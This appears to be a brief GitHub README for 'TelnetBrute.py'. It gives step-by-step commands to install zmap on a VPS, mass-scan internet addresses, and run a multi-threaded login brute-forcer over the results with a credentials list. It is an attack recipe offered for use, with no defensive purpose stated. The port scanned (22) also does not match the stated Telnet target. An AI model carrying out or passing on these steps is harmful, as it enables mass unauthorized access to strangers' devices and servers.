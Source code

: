 [VPS CentOS 6.9 2GB-RAM] 

- Install zmap

yum update -y 

sh zmap_auto_install.sh

- Scan Telnet Ips

zmap -p22 -o mfu.txt -w Legend.lst 

- Bruteforce (Repeat The Process)

1- ulimit -n 999999

2- python TelnetBrute.py mfu.txt 15000 test.txt




<img src="https://raw.githubusercontent.com/XeljomudoX/TelnetBrute.py/master/lul.png">



